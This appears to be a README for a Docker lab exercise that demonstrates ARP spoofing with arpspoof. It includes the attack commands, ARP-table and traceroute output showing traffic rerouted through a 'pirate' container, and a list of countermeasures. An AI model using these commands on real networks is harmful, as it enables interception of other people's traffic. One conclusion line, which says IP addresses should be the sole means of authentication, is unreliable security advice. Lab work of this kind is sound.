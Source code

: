 # Spoofing

## Content
- [Spoofing](#spoofing)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [arpspoof](#arpspoof)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- three services
  - machine_1:
    - purpose: connect to machine_2, preview traceroute
    - tools: `traceroute`
    - ip: 10.10.10.2
  - machine_2:
    - ip: 10.10.10.3
  - pirate:
    - purpose: execute Arp Spoofing attack
    - tools: `arpspoof`
    - ip: 10.10.10.4
- log file
  - `./log/output.log`
- environment configuration in `.env` contains:
  - ip addresses configuration
  - commands to execute for machine_1 and pirate
  - paths for script for log file and script file
- `goal.bash`: script to execute machine_1 and pirate commands. (_be sure that goal.bash is executable_)
- `docker-compose.yml` configuration
  

## Work Process
### arpspoof
> arpspoof mounts an ARP spoofing attack against a host on the local network. This results in traffic from the attacked host to the default gateway (and all non-LAN hosts) and back going through the local computer and can thus be captured with tools like Wireshark. arpspoof will also forward this traffic, so Windows does NOT have to be configured as a router. [github/alandau]

### How to run
- execute docker-compose: `docker-compose up`
- in both `pirate` and `machine_1`, we execute `goal.bash` wich will execute the sequence of commands inside `.env` file
  - `docker exec -it machine_1 goal.bash`
  - `docker exec -it pirate goal.bash`


### Result
We'll have as a result:
- machine_1
``` bash
>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  machine_2.exercice_3_network_ip (10.10.10.3)  0.187 ms  0.060 ms  0.061 ms
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:03 [ether] on eth0
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_1 $IP_MACHINE_2)
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:2 0806 42: arp reply 10.10.10.3 is-at
```
- machine_1
``` bash
>>> press <enter> to execute (arp -a)
machine_2.exercice_3_network_ip (10.10.10.3) at 02:42:0a:0a:0a:04 [ether] on eth0
pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0

>>> press <enter> to execute (traceroute $IP_MACHINE_2)
traceroute to 10.10.10.3 (10.10.10.3), 30 hops max, 60 byte packets
 1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms
 2  machine_2.exercice_3_network_ip (10.10.10.3)  0.079 ms  0.064 ms  0.067 ms
```
- pirate
``` bash
>>> press <enter> to execute (arpspoof -t $IP_MACHINE_2 $IP_MACHINE_1)
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
2:42:a:a:a:4 2:42:a:a:a:3 0806 42: arp reply 10.10.10.2 is-at 2:42:a:a:a:4
```

> full log will be stored in [./log/output.log](./log/output.log)


## Interpretation
- After `arpspoof` attack, a new line has been added to the arp table showen insde `machine_1` 
  - `pirate.exercice_3_network_ip (10.10.10.4) at 02:42:0a:0a:0a:04 [ether] on eth0`
  - The mac address of the target `machine_1` has been changed from `02:42:0a:0a:0a:03` to `02:42:0a:0a:0a:04` which is the mac adress of the pirate.
- When executing traceroute to `machine_2`, a new line has been added
  -  `1  pirate.exercice_3_network_ip (10.10.10.4)  0.120 ms  0.060 ms  0.048ms`
  -  The requesets to `machine_2` will be recieved by `pirate`
- In the end, we send `arpspoof` attack to `machine_2`




## Conclusion
- The attack may have strong impact if it is combined with `Dos` attack to prevent any probabilty of connection from the target machine we want to contact
- We should consider only ip address as the unique method for authentication.
- As counter measurment, we have to use other anti-arp solutions like:
  - DHCP snopping
  - cisco..
  - Xarp,.. 



[github/alandau]: https://github.com/alandau/arpspoof
